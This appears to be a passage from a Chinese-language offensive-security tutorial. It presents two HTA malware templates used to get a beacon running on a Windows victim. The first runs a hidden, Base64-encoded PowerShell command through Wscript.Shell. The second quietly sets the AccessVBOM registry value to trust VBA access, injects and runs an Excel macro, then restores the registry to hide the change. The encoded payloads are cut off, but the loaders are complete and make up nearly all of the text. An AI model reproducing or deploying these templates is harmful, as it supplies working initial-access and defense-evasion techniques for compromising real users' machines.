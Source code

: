 PowerShell 也是 VBScript 脚本不过 Wscript.Shell 运行的是 PowerShell 程序，其执行的内容经过 Base64 编码。

```plaintext
<script language="VBScript">
    Function var_func()
        Dim var_shell
        Set var_shell = CreateObject("Wscript.Shell")
        var_shell.run "powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAG......MAdAAgAEkAoACkAOwA=", 0, true
    End Function
    var_func
    self.close
</script>
```

VBS 将执行 Excel 宏上线。过程是修改注册表信任 Excel 宏，并执行宏，最后恢复注册表。

```plaintext
<html><head><script language="vbscript">
Dim objExcel, WshShell, RegPath, action, objWorkbook, xlmodule

Set objExcel = CreateObject("Excel.Application")
objExcel.Visible = False

Set WshShell = CreateObject("Wscript.Shell")

function RegExists(regKey)
    on error resume next
    WshShell.RegRead regKey
    RegExists = (Err.number = 0)
end function

' Get the old AccessVBOM value
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & objExcel.Version & "\Excel\Security\AccessVBOM"

if RegExists(RegPath) then
    action = WshShell.RegRead(RegPath)
else
    action = ""
end if

' Weaken the target
WshShell.RegWrite RegPath, 1, "REG_DWORD"

' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString "Private "......"
objExcel.DisplayAlerts = False
on error resume next
objExcel.Run "Auto_Open"
objWorkbook.Close False
objExcel.Quit

' Restore the registry to its old state
if action = "" then
    WshShell.RegDelete RegPath
else
    WshShell.RegWrite RegPath, action, "REG_DWORD"
end if
self.close
</script></head></html>
```

